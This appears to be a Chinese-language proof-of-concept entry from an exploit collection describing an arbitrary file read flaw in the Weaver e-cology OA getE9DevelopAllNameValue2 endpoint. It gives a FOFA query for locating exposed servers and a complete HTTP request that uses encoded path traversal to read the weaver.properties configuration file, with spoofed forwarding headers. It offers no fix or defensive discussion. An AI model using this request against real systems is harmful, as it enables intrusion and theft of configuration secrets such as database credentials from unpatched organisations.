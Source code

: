 ## 泛微getE9DevelopAllNameValue2接口存在任意文件读取漏洞

## fofa
```
app="泛微-OA（e-cology）"
```

## poc
```
GET /api/portalTsLogin/utils/getE9DevelopAllNameValue2?fileName=portaldev_%2f%2e%2e%2fweaver%2eproperties HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
X-Originating: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

![24965e54432f0dbd1db6d0eb73fd7aa5](../../images/c4c5a948-191f-4749-8136-a9f1576c4816.png)
